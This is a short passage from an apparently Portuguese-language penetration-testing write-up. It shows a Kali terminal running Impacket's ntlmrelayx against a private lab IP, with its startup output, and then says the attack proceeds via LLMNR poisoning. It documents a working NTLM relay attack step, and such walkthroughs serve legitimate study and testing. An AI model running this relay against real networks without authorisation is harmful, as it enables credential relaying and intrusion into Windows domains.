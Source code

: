 impacket-ntlmrelayx -t 192.168.0.102 -smb2support

```bash

┌──(kali㉿insecure)-[~]
└─$ impacket-ntlmrelayx -t 192.168.0.102 -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections



```

Iniciamos o ataque atraves de [**LLMNR**](../../posts/ad\_llmnr/#explora%C3%A7%C3%A3o-poc)

![](../../.gitbook/assets/LLMNRStart.png)
